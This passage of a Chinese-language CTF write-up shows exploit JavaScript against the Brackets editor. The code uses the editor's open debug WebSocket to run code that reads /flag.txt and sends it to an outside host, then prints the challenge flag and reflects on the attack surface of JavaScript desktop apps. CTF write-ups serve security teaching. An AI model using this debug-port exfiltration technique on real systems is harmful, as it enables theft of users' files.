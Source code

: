 ```javascript

var ws = new WebSocket(wsurl);
ws.onopen = function() { 
    msg = {
        id: 1,
        method: "Runtime.evaluate",
        params:{
            expression: 'brackets.fs.readFile("/flag.txt", "utf8", function(err, contents) {\
                             var g = new XMLHttpRequest();\
                             g.open("GET", "http://l4ys.tw/qq.php?"+encodeURIComponent(contents),true);\
                             g.send();\
                         });'
        }		
    };
    ws.send(JSON.stringify(msg));
};

ws.onmessage = function(e) {
    console.log(e.data);
    window.location = "http://l4ys.tw/?onmessage=" + JSON.stringify(e.data);
}
```

Flag: `Flag:rwctf{our_supply_chain_by_these_developers_guarded_please_dont_hurt}`

---
### 0xFF. Game Over

結合兩個程式的功能達成的 RCE ，兩者單獨存在時並不是什麼大問題，但放在一起就變成嚴重的系統漏洞


誰會想到編輯器預設竟然會開著一個 Debug Port 呢 🤔

隨著 JavaScript 開發的桌面程式越來越多，聽起來好像很安全，但實際上卻帶來了一個更大且更容易利用的攻擊面

---

順帶一提，解完題目後還不小心發現了 Dash 的一個 ~~0day~~ 功能
過幾天就是 DEFCON / BlackHat 了，實在是有點怕怕的

![](https://i.imgur.com/UkqLd8W.png)


